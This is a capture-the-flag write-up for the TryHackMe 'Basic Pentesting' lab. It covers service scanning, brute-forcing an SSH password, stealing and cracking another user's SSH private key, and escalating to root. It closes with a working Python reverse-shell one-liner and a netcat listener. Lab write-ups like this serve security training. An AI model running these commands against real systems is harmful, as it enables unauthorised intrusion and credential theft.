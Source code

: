```yaml
---
title: Basic Pentesting CTF Writeup
tags:
  - ctf
  - easy
  - tryhackme
  - web
  - privilege_escalation
---
```

# [Basic Pentesting](https://tryhackme.com/r/room/basicpentestingjt) - TryHackMe

**Author:** [ashu](https://tryhackme.com/p/ashu)
**Date:** July 29, 2019.
**Category:** General   
**Difficulty:** Easy   

---
## Challenge Description

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration

Questions are to be answered regarding the machine. The questions are
- Find the services exposed by the machine
- What is the name of the hidden directory on the web server(enter name without /)?
- User brute-forcing to find the username & password
- What service do you use to access the server(answer in abbreviation in all caps)?
- Enumerate the machine to find any vectors for privilege escalation
- What is the name of the other user you found(all lower case)?
- If you have found another user, what can you do with this information?
- What is the final password you obtain?

---

First ping the machine....it's active. Now we can run a quick [[Nmap]] scan.

```
nmap  -vv $ip -T4 -sV   
```

the output shows the following ports open

```
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?      syn-ack
8080/tcp open  http-proxy  syn-ack
```

Seeing HTTP Lets open this up in the browser and also run [[Gobuster]]

```
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt
```

This gives us the name of the hidden directory. Which is the answer to a question.

```
[Size: 318] [--> http://10.10.68.231/***********/]
```

Let's visit this directory on the browser. got 2 text files containing the following data.

dev.txt
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

The SMB and the version number might be important. we may be able to exploit it.

J.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

looks like Mr. J has a weak password we can use hydra to crack it. J also might be the initial letter of the username.
Let's try using [[enum4linux]] on the machine. I got this by looking at a writeup.

```
enum4linux -a $ip
```

This basically gives us information about the host machine. This gives us the name of the users of the machine.

Brute forcing the password of Mr. J gives us the password and the answer to one of our questions as well.

We SSH into the machine and find out that Mr. J is not trusted at all and is not given any kind of admin permissions . so we got to find some way of accessing the other user. Luckily in home directory we find Mr. K with the following files:

```
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```

the `pass.bak`looks interesting an may contain a password. We have a look into the `.ssh` folder 
we find the following

```
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```

We might be able to find the key by cracking the hash of `id_rsa`. First we transfer it to our machine using [[scp]]
```
scp j**@$ip:/home/kay/.ssh/id_rsa id_rsa.orig
```

First we get the hash from the key.

```
python /usr/share/john/ssh2john.py id_rsa.orig > id_rsa.hash
```

after the we use [[John The Ripper]] to crack the hash

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

This gives us the key phrase we can use it and the private key to [[SSH]] using the Mr. K. Great we now have access. now we can see what is inside the `pass.bak` file . and surely enough we get the password.

Use the password to check what privileges you have using `sudo -l` . Looks like we have all the privileges so we can access the root folder and also see a flag there from the author.

This completes the CTF but I went a bit further and got a reverse shell just for practice.

```
nc -lvp 1234
```

and on the target machine:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Thanks for Reading!